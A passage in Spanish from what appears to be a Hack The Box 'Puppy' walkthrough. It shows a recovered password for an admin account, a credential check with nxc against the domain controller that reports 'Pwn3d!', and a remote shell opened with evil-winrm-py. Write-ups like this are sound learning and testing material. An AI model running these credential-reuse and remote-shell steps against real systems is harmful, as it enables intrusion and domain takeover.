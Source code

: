 ~~~ bash
Unknown     : 
Username    : steph.cooper_adm
Unknown     : FivethChipOnItsWay2025!
~~~

- `-file`: Archivo que contiene credenciales protegidas
- `-key`: Clave maestra desencriptada anteriormente

Obtuvimos las credenciales `FivethChipOnItsWay2025!` y son válidas para el usuario `steph.cooper_adm`

~~~ bash
nxc smb DC.puppy.htb -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\steph.cooper_adm:FivethChipOnItsWay2025! (Pwn3d!)
~~~

Veremos un `(Pwn3d!)`, normalmente significa que el usuario tiene privilegios elevados. Si comprobamos desde `BloodHound`, veremos que es miembro del grupo `Administrators`

![image-center](/assets/images/posts/puppy-bloodhound-5.png)
{: .align-center}


## Root Time

Nos conectaremos a través de `winrm` a la máquina víctima utilizando las credenciales para el usuario `steph.cooper_adm`

~~~ bash
evil-winrm-py -i DC.puppy.htb -u 'steph.cooper_adm' -p 'FivethChipOnItsWay2025!'
        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v1.1.2
[*] Connecting to DC.puppy.htb:5985 as steph.cooper_adm
evil-winrm-py PS C:\Users\steph.cooper_adm\Documents> whoami
puppy\steph.cooper_adm
~~~
